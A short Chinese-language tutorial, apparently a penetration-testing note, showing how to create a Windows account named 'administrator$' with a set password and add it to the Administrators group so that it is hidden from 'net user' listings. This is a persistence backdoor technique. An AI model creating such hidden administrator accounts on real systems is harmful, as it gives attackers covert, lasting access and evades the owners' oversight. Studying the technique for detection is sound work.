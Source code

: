 ### Windows 添加隐藏用户

先创建一个用户

```cmd
net user administrator$ Admin@123 /add
```

`net user`：管理用户的命令

`administrator$`：新用户的用户名，这里用 **`$` 结尾**

- 在 Windows 中，用户名以 `$` 结尾时，默认会在很多 GUI 工具中被隐藏（例如登录界面、`net user` 列表），类似“隐藏账户”

`Admin@123`：设置的账户密码

`/add`：表示添加新用户

再添加到管理员组中

```cmd
net localgroup administrators administrator$ /add
```

`net localgroup`：管理本地组的命令

`administrators`：表示本地的 **Administrators 管理员组**

`administrator$`：指定刚才创建的用户

`/add`：把该用户加入组

这样添加的用户使用 `net user` 看不到

![](https://pic1.imgdb.cn/item/68d4751dc5157e1a882d445b.png)

图形化可以看到

![](https://pic1.imgdb.cn/item/68d47566c5157e1a882d4468.png)